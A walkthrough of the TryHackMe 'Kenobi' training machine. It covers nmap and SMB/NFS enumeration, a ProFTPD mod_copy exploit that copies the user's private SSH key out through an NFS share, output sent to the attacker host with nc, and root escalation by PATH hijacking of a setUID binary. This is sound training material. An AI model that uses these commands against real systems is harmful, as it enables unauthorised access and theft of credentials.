*2021-08-26*

*kimm3*

# Walkthrough: Kenobi
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/kenobi)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history/enum1
export IP=10.10.188.113
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`



`sudo nmap $IP -Pn -p 445 --script=smb-enum-shares,smb-enum-users`



`smbclient //$IP/anonymous`



### Logfile
'log.txt' contains several configurations.

It starts with the generation of a SSH RSA key pair. So we know the location and file names for them:



It also contains the configuration for the proftp daemon, and it has a anonymous user enabled.



The server is running as the user kenobi(same as the ssh-keys).

It also contains the samba config.
### NFS
From the inital nmap scan. We have another possibility, the rpcbind service binds to a NFS service.



`sudo nmap $IP -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount`



The `/var` folder is shared.
## Foothold/Exploit
Plan: Copy kenobis private ssh key using the mod_copy [vulnerability](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/) to the `/var` folder, retrieve it and log in as kenobi.

```
mkdir mnt
sudo mount $IP:/var mnt
ls -la mnt
nc $IP 21
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO /var/tmp/id_rsa
cp mnt/id_rsa creds
chmod 600 creds/id_rsa
ssh -i creds/id_rsa kenobi@$IP
```






## Privilege Escalation
Search for files with setUID-bit set.

```
#on host
nc -lp 1234 > foundfiles/setUIDsearch.txt

# on target
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null | nc 10.8.210.115 1234
```



`/usr/bin/menu` is not standard.



Seems to be running common commands to show info about target machine.

`strings /usr/bin/menu`



It runs curl, ifconfig and uname - with relative paths. We can tamper with the path of kenobi to use this.

```
echo "/bin/bash" > curl
chmod 770 curl
echo PATH=/home/kenobi:$PATH
menu
# choose 1
```


